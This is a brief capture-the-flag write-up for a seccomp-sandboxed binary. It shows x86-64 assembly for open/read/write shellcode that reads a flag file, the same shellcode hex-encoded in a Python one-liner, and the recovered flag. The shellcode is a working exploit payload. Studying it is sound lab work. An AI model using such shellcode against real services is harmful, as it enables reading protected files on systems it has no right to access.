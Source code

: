 ### ASM 

the binary has been sandboxed using seccomp , we have to get flag using only  open , read , write syscall

```
; open(rdi=*filename,rsi=0['r'])  rax=2

xor rax, rax
add al, 2
mov rdi,0x41414074
xor rsi, rsi 
syscall

; read(rdi=rax=fd,rsi= mapped area,rdx=count)  rax=0

mov rdi,rax
mov rsi,0x414143e8
xor rax,rax
mov rdx,0xf0
syscall

; write(rdi=1,rsi=buf,rdx=count) rax=1

xor rdi, rdi
add rdi,1
xor rax,rax
add rax,1
mov rsi,0x414143e8
mov rdx,0xf0
syscall

```

 python -c 'print "\x48\x31\xC0\x04\x02\x48\xC7\xC7\x74\x40\x41\x41\x48\x31\xF6\x0F\x05\x48\x89\xC7\x48\xC7\xC6\xE8\x43\x41\x41\x48\x31\xC0\x48\xC7\xC2\xF0\x00\x00\x00\x0F\x05\x48\x31\xFF\x48\x83\xC7\x01\x48\x31\xC0\x48\x83\xC0\x01\x48\xC7\xC6\xE8\x43\x41\x41\x48\xC7\xC2\xF0\x00\x00\x00\x0F\x05"+"\n"+"flag[Truncated]\x00\x00"' 

##### flag :  Mak1ng_shelLcodE_i5_veRy_eaSy

[Refer here for assembling](https://defuse.ca/online-x86-assembler.htm#disassembly)

[Syscall table](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)


